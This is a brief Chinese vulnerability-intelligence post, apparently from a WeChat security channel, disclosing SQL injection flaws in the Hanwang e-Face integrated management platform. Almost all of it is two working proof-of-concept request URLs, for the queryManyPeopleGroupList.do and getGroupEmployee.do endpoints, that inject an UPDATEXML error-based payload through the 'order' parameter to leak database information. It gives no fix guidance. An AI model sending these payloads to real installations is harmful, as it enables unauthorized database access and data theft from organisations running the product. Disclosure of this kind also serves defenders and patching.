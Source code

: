 #  护网情报 ｜汉王e脸通综合管理平台SQL注入漏洞  
小浪  船山信安   2025-07-07 15:40  
  
queryManyPeopleGroupList接口SQL注入  
  
POC:  
```
/manage/authMultiplePeople/queryManyPeopleGroupList.do?recoToken=67mds2pxXQb&page=1&pageSize=10&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicP9UCoHxicWVyZ3PTr9kjJFMxVqEg0C3W4R2hAkibUeavWTSBnibb3KnOLkbRbCKZ7klSHb7VefeyrUQ/640?wx_fmt=jpeg "")  
  
  
getGroupEmployee  SQL注入  
```
/manage/authMultiplePeople/getGroupEmployee.do?recoToken=67mds2pxXQb&page=1&pageSize=10&groupId=1&order=(UPDATEXML(2920,CONCAT(0x7e,@@version,0x7e,(SELECT+(ELT(123=123,1)))),8357))
```  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/7nIrJAgaibicP9UCoHxicWVyZ3PTr9kjJFMltscRw7MZ8HrKbwvKUCmjpyY1icYA8hV1VF3nwTqY5UanEj2picLUnicg/640?wx_fmt=jpeg "")  
  
  
  

